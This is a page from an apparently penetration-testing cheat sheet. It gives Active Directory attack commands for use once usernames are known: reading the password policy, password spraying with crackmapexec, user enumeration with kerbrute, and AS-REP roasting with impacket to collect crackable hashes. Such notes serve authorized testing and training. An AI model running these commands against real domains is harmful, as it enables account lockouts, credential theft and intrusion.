 # Got Username
## Get Password Policy
```bash
crackmapexec 10.10.10.10 -u 'username' -p 'password' --pass-pol 
```

```bash
enum4linux -u 'username' -p 'password' -P <ip>
```

## Password Spray
Test password against usernames in order. Won't brute force each password against each user.
```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt --no-bruteforce
```

Test each password against each username. Careful of lockout policy.
```bash
crackmapexec smb 10.10.10.10 -u users.txt -p passwords.txt
```

Got Credentials: [Next](got-credentials.md)

## Testing Usernames
```bash
kerbrute userenum -d domain.local --dc domain.local users.txt
```

## ASREPRoast
```bash
impacket-GetNPUsers domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
```

Got Hash: [Next](cracking-hashes.md#tgt)

